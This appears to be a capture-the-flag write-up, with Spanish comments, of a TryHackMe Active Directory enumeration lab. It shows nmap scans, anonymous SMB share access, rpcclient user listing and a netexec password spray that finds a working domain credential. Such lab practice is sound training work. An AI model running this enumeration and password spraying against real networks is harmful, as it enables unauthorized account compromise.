


# AD Basic Enumeration



## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.211.11.10 -oG allPorts2

PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49672/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49696/tcp open  unknown
49708/tcp open  unknown
```

```bash
nmap -sC -sV -O 22,135,139,445,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49677,50095 10.211.11.10 -oN target2.txt

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:d9:ac:9e:bc:f9:27:c9:8a:7f:01:28:72:9f:05:7a (RSA)
|   256 bc:21:8a:c6:9f:71:dc:8f:b7:e9:6b:71:71:cd:eb:ef (ECDSA)
|_  256 76:ba:01:61:c4:69:5b:c4:d6:8a:dd:8d:c7:32:7b:f3 (ED25519)

53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-11 07:43:04Z)

135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tryhackme.loc0., Site: Default-First-Site-Name)

445/tcp  open  microsoft-ds  Windows Server 2019 Datacenter 17763 microsoft-ds (workgroup: TRYHACKME)

464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tryhackme.loc0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-11T07:43:44+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: DC.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-11T07:43:30+00:00
| ssl-cert: Subject: commonName=DC.tryhackme.loc
| Not valid before: 2025-09-09T03:13:04
|_Not valid after:  2026-03-11T03:13:04
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=9/11%OT=22%CT=1%CU=33826%PV=Y%DS=2%DC=I%G=Y%TM=68C27DB
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=104%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=102%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=104%GCD=1%ISR
OS:=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%ISR=108%TI=I%CI=I%II=I%SS
OS:=S%TS=U)SEQ(SP=FD%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M509NW8N
OS:NS%O2=M509NW8NNS%O3=M509NW8%O4=M509NW8NNS%O5=M509NW8NNS%O6=M509NNS)WIN(W
OS:1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%
OS:O=M509NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb-os-discovery: 
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: DC
|   NetBIOS computer name: DC\x00
|   Domain name: tryhackme.loc
|   Forest name: tryhackme.loc
|   FQDN: DC.tryhackme.loc
|_  System time: 2025-09-11T07:43:32+00:00
| smb2-time: 
|   date: 2025-09-11T07:43:30
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.38 seconds
```

### SMB

```bash
nxc smb 10.211.11.10 -u '' -p '' --shares                                                                                       
SMB         10.211.11.10    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:tryhackme.loc) (signing:True) (SMBv1:True) 
SMB         10.211.11.10    445    DC               [+] tryhackme.loc\: 
SMB         10.211.11.10    445    DC               [*] Enumerated shares
SMB         10.211.11.10    445    DC               Share           Permissions     Remark
SMB         10.211.11.10    445    DC               -----           -----------     ------
SMB         10.211.11.10    445    DC               ADMIN$                          Remote Admin
SMB         10.211.11.10    445    DC               AnonShare       READ,WRITE      
SMB         10.211.11.10    445    DC               C$                              Default share
SMB         10.211.11.10    445    DC               IPC$                            Remote IPC
SMB         10.211.11.10    445    DC               NETLOGON                        Logon server share 
SMB         10.211.11.10    445    DC               SharedFiles     READ,WRITE      
SMB         10.211.11.10    445    DC               SYSVOL                          Logon server share 
SMB         10.211.11.10    445    DC               UserBackups     READ,WRITE      
```

```bash
smbclient //10.211.11.10/SharedFiles -N   
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Sep 11 04:45:34 2025
  ..                                  D        0  Thu Sep 11 04:45:34 2025
  Mouse_and_Malware.txt               A     1141  Thu May 15 05:40:19 2025

		7863807 blocks of size 4096. 3470130 blocks available
smb: \> 

# nos conectamos en la sigueinte ruta
smbclient //10.211.11.10/UserBackups -N   
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Sep 11 04:45:41 2025
  ..                                  D        0  Thu Sep 11 04:45:41 2025
  flag.txt                            A       14  Thu May 15 05:34:33 2025
  story.txt                           A      953  Thu May 15 05:37:57 2025

		7863807 blocks of size 4096. 3470129 blocks available
smb: \> get flag.txt
getting file \flag.txt of size 14 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> get story.txt 
getting file \story.txt of size 953 as story.txt (1.0 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```

Flag
```bash
cat flag.txt             
THM{88_SMB_88}   
```

### rpcclient

```bash
rpcclient -U "" 10.211.11.10 -N -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[sshd] rid:[0x649]
user:[gerald.burgess] rid:[0x650]
user:[nigel.parsons] rid:[0x651]
user:[guy.smith] rid:[0x652]
user:[jeremy.booth] rid:[0x653]
user:[barbara.jones] rid:[0x654]
user:[marion.kay] rid:[0x655]
user:[kathryn.williams] rid:[0x656]
user:[danny.baker] rid:[0x657]
user:[gary.clarke] rid:[0x658]
user:[daniel.turner] rid:[0x659]
user:[debra.yates] rid:[0x65a]
user:[jeffrey.thompson] rid:[0x65b]
user:[martin.riley] rid:[0x65c]
user:[danielle.lee] rid:[0x65d]
user:[douglas.roberts] rid:[0x65e]
user:[dawn.bolton] rid:[0x65f]
user:[danielle.ali] rid:[0x660]
user:[michelle.palmer] rid:[0x661]
user:[katie.thomas] rid:[0x662]
user:[jennifer.harding] rid:[0x663]
user:[strategos] rid:[0x664]
user:[empanadal0v3r] rid:[0x665]
user:[drgonz0] rid:[0x666]
user:[strate905] rid:[0x667]
user:[krbtgtsvc] rid:[0x668]
user:[asrepuser1] rid:[0x669]
user:[rduke] rid:[0xa31]
user:[user] rid:[0x1201]
```

```bash
rpcclient -U "" 10.211.11.10 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users.txt
Administrator
Guest
krbtgt
sshd
gerald.burgess
nigel.parsons
guy.smith
jeremy.booth
barbara.jones
marion.kay
kathryn.williams
danny.baker
gary.clarke
daniel.turner
debra.yates
jeffrey.thompson
martin.riley
danielle.lee
douglas.roberts
dawn.bolton
danielle.ali
michelle.palmer
katie.thomas
jennifer.harding
strategos
empanadal0v3r
drgonz0
strate905
krbtgtsvc
asrepuser1
rduke
user
```

### 

```bash
enum4linux 10.211.11.10 > DomianEnum.txt
```

Convertiur decimal a HEX

```bash
user:[katie.thomas] rid:[0x662]
```

```bash
printf "%x\n" 1634                                                                       
662
```


Es posible mirar las politicas de las contraseñas

```bash
nxc smb 10.211.11.10 --pass-pol
```



Lista de passwords:

```bash
Password!
Password1
Password1!
P@ssword
Pa55word1
```

Con los usuarios encontrados en el dominio, probamos con ls lista de contraseñas entregada.


```bash
nxc smb 10.211.11.10 -u users.txt -p passwords.txt --continue-on-success
SMB                      10.211.11.10    445    DC               [+] tryhackme.loc\rduke:Password1! 
```

